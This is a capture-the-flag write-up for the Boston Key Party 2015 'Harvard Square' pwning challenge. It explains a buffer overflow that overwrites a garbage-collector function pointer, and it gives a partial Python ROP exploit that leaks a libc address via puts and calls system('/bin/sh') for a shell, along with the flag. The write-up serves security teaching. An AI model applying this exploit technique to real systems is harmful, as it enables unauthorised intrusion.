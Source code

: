 # Boston Key Party CTF 2015: Harvard Square

**Category:** Pwning
**Points:** 275
**Solves** 
**Description:**

> can you be a leet 0day broker? 52.1.91.215 2114 (libc is ubuntu adf3305fcd0345f706019cf94687d50b libc-2.19.so) : 275

## Write-up

The problem is a game about transcation of 0days.  
We can enter the password and cheat the game, but it's useless.   
The game print the message:  

>Welcome to 0day Warz - The goal of the game is to get the $100M USD by the end of the game. You have been given a loan of $2000, with some high interest rate of 25% a day!`

The programe for the goal of game:  
```
void play_game() {
    ...
    if (owed == 0.0) {
        if (money > 9999999)
      action_hiscore();
    }
  ...
}
void action_hiscore() {
    char buf[268];
  ....
  read(0, buf, 0x400);
  ...
}
```
However, if understanding the game rule, we can know the condition is impossible to reach.  
So we must find another vulunerbility.  
In fact, there is a bof when `play_game()` starting.  
It cannot overflow to return address, but we can use it to change function pointers. :D  

The programe use `simple-gc`.  
(https://github.com/dhamidi/simple-gc/)  
It's create two garbage-collectors and put function pointer `exploit_free` and `string_free` to gc.  
Then, gc will trigger when we do `sleep` action.  
We can overwrite function ptr to `action_hiscore`, and we can overwrite the return address.  

Now, we can write the exploit.  
```
arg1 => rdi
arg2 => rsi
arg3 => rdx
...
```

So we must find some gadget to control arguments at first.  
Then, we can use `put()` to leak arbitrary address.  
There exist a little bug.... stdout dupped to socket.  
We won't receive the content immediately.  
To solve this bug, I return to `action_hiscore()` again because it has `fflush()` at the end of function.  

After leak the address, we can calulate the address of `system()`.  
Next, We need a string of "/bin/sh".  
Luckily, we can find it in libc, too.  
So we can call `system("/bin/sh")` to get the shell.  

My partitial exploit:  
```
# leak address
raw_input("wait gdb")
read_until("name? ")
pop_rdi = up64("402fc3")
got = up64("605061")
put = up64("400cd0")
payload = "a"*280 + pop_rdi + got + put + bof
send_line(payload)
read_until("...-'\"\n")
read_until("!\n")

# get leak and count libc
leak = read_line().strip()[::-1].encode("hex")
base = int(leak+"00", 16) - 0x54400
system = hex(base + 0x46640)[2:]
system = up64(system)
binsh = hex(base + 0x17d87b)[2:]

# get and shell out
read_until("name? ")
buf = up64("605800")
payload = "a"*280 + pop_rdi + up64(binsh) + system
send_line(payload)
read_until("!\n")

t.interact()
```

`flag: stay_in_school_and_dont_do_the_grugq`  

## Other write-ups and resources

* <http://ddaa.logdown.com/posts/256270-boston-key-party-ctf-2015-275-harvard-square>

